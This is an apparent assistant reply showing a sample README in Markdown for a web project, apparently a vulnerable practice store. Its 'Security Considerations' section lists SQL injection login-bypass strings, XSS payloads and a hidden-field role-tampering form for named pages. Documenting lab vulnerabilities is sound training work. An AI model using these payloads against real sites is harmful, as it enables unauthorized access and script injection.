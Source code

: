 To format your README file, you can use Markdown syntax to make it more readable. Here's an example of how you might structure it:

```markdown
# Project Name

## Installation

To install the required packages, run the following command:

```bash
npm install
```

## Frontend

To run the frontend, use the following command:

```bash
npm run dev
```

## Backend

To start the backend, use the following command:

```bash
npm run start
```

## Security Considerations

### SQL Injection

#### Login to My Account
```sql
'or 1=1 or' admin' or 1=1# 
```

#### Supplier Login
```sql
admin' or 1=1# 
```

### Cross-site Scripting (XSS)

#### Password Reset
```html
</h2><script>alert(1);</script><h2> 
```

#### Supplier Upload Portal
```html
<img src=x onerror=alert(1);> 
```

#### Guestbook
```html
</h2><script>alert(1);</script><h2> 
```

### Publicly Available Directories

- `robot.txt` file
- `/supplier` directory

### Web Parameter Tampering

```html
?action=admin
<INPUT TYPE="hidden" NAME="role" VALUE="U"><INPUT TYPE="submit"
METHOD="POST" ACTION="http://{your ip address}/cgi-bin/badstore.cgi?action=register"
```

Remember to replace `{your ip address}` with the actual IP address if applicable.

Feel free to adjust the structure and formatting based on your preferences. Markdown allows you to create headings, code blocks, lists, and more to make your README clear and organized.

